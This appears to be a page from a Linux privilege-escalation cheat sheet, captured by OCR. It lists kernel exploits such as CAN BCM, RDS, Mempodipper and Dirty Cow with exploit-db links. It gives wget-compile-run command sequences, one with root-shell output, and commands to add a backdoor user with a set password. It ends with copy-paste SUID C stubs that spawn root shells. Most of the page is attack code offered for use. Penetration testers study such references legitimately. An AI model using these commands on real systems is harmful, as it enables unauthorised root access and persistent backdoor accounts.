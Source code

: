 -   CVE-2010-2959 - 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)
 
    [https://www.exploit-db.com/exploits/14814/](https://www.exploit-db.com/exploits/14814/)
   
         wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
         $ gcc i-can-haz-modharden.c -o i-can-haz-modharden
         $ ./i-can-haz-modharden
         [+] launching root shell!
         # id
         uid=0(root) gid=0(root)
 
-   CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8  
    [https://www.exploit-db.com/exploits/15285/](https://www.exploit-db.com/exploits/15285/)
 
-   CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)  
    [https://git.zx2c4.com/CVE-2012-0056/about/](https://git.zx2c4.com/CVE-2012-0056/about/)  
    Linux CVE 2012-0056  
   
          wget -O exploit.c http://www.exploit-db.com/download/18411
          gcc -o mempodipper exploit.c  
          ./mempodipper
 
-   CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8  
    [https://dirtycow.ninja/](https://dirtycow.ninja/)  
    First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016  
 
-   Run a command as a user other than root  
 
          sudo -u haxzor /usr/bin/vim /etc/apache2/sites-available/000-default.conf
 
-   Add a user or change a password
 
          /usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor  
          echo thePassword | passwd haxzor --stdin
 
-   Local Privilege Escalation Exploit in Linux
 
    -   **SUID** (**S**et owner **U**ser **ID** up on execution)  
        Often SUID C binary files are required to spawn a shell as a
        superuser, you can update the UID / GID and shell as required.  
         
        below are some quick copy and paste examples for various
        shells:  
     
              SUID C Shell for /bin/bash  
 
              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/bash");  
              }  
 
              SUID C Shell for /bin/sh  
 
              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/sh");  
              }  
 